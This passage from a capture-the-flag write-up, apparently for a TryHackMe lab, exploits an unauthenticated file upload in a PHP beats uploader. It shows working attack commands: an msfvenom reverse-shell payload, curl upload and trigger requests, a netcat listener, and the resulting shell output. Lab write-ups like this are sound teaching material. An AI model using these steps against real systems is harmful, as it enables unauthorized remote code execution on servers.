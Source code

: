 I'll use the Arbitrary File Upload vulnerability to gain an initial shell.

**44250.txt Arbitrary File Upload:**

```
Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the webserver with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"
[...]
```

To do so, first, I'll generate a php reverse shell via `msfvenom`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# msfvenom -p php/reverse_php LHOST=tun0 LPORT=443 -o revshell.php
```

Then, upload the file with `curl`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# curl -u developers:[Redacted] -F "file=@revshell.php" -F "plupload=1" -F "name=revshell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
creating file{"success":"yes","file_name":"165752453575eede","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```

Setup a `netcat` listener on port 443:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# nc -lnvp 443
listening on [any] 443 ...
```

Trigger the reverse shell via `curl`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# curl -u developers:[Redacted] -F "file=@revshell.php" -F "plupload=1" -F "name=revshell.php" "http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/165752453575eede.php"
```

**Initial Shell:**

```
connect to [Redacted] from (UNKNOWN) [10.10.53.129] 50120
whoami; id; hostname; ip a

www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
vulnnet
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:10:3c:9b:38:99 brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.129/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3154sec preferred_lft 3154sec
    inet6 fe80::10:3cff:fe9b:3899/64 scope link 
       valid_lft forever preferred_lft forever
```
